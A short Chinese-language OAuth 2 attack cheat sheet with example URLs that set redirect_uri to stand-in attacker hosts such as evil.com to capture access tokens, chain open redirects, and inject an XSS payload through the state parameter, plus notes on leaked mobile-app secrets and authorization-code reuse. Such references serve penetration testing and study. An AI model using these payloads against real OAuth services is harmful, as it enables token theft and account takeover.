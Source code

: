 # OAuth 2常见的漏洞

## 通过redirect_uri抓取的OAuth令牌
重定向到受控域以获取访问令牌
```
https://www.example.com/signin/authorize?[...]&redirect_uri=https://demo.example.com/loginsuccessful
https://www.example.com/signin/authorize?[...]&redirect_uri=https://localhost.evil.com
```

重定向到被接受的开放URL以获取访问令牌
```
https://www.example.com/oauth20_authorize.srf?[...]&redirect_uri=https://accounts.google.com/BackToAuthSubTarget?next=https://evil.com
https://www.example.com/oauth2/authorize?[...]&redirect_uri=https%3A%2F%2Fapps.facebook.com%2Fattacker%2F
```
OAuth的实现绝不将整个领域列入优良者名单, 只有少数的网址，“redirect_uri”不能指出一个开放的重定向。

 
有时你需要改成一个无效的域来使redirect_uri过滤器通过:
```
https://www.example.com/admin/oauth/authorize?[...]&scope=a&redirect_uri=https://evil.com
```

## 通过redirect_uri执行XSS
```
https://example.com/oauth/v1/authorize?[...]&redirect_uri=data%3Atext%2Fhtml%2Ca&state=<script>alert('XSS')</script>
```

## OAuth密钥泄露
一些Android / iOS应用程序可以被反编译并且OAuth密钥可以访问。

## 违反授权代码规则
```
The client MUST NOT use the authorization code  more than once.  
If an authorization code is used more than once, the authorization server MUST deny the request 
and SHOULD revoke (when possible) all tokens previously issued based on that authorization code.
```

## 致谢
* http://blog.intothesymmetry.com/2016/11/all-your-paypal-tokens-belong-to-me.html
* http://homakov.blogspot.ch/2014/02/how-i-hacked-github-again.html
* http://intothesymmetry.blogspot.ch/2014/04/oauth-2-how-i-have-hacked-facebook.html
* http://andrisatteka.blogspot.ch/2014/09/how-microsoft-is-giving-your-data-to.html


